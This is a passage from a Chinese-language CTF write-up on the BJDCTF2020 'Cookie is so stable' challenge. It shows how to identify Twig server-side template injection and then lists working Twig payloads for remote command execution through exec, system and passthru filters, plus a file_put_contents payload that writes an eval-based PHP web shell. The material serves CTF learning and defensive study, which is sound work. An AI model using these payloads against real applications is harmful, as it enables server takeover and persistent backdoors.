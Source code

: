 得到flag

### [BJDCTF2020]Cookie is so stable

![image-20220914084519362](D:\Typora\note\CTF\web\ctfshow_vip\SSTI.assets\image-20220914084519362.png)

感觉像是SSTI，可以试试

![image-20220914084601225](D:\Typora\note\CTF\web\ctfshow_vip\SSTI.assets\image-20220914084601225.png)

果然，接下来就是找模板

![img](D:\Typora\note\CTF\web\ctfshow_vip\SSTI.assets\c52b16c0b3e8637ac80d318c2d9c9f6.jpg)

这张图可以参考一下

输入`{{7*'7'}}`返回**49**，可知不是**Jinja2就是Twig**，因为文件是php，所以只能是**Twig**

所以去网上找payload

```php
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("ls")}}

{{["whoami"]|map("system")}}

{{["whoami"]|map("passthru")}}

{{["whoami"]|map("exec")}}    // 无回显

但是当上面的都被ban了呢，我们还有没有其他方法rce

当然，例如

file_put_contents ( string $filename , mixed $data [, int $flags = 0 [, resource $context ]] ) : int
当我们找到路径后就可以利用该函数进行写shell了

?name={{{"<?php phpinfo();eval($_POST[whoami]);":"D:\\phpstudy_pro\\WWW\\shell.php"}|map("file_put_contents")}}
```

https://www.freebuf.com/articles/web/314028.html

特别详细的payload讲解





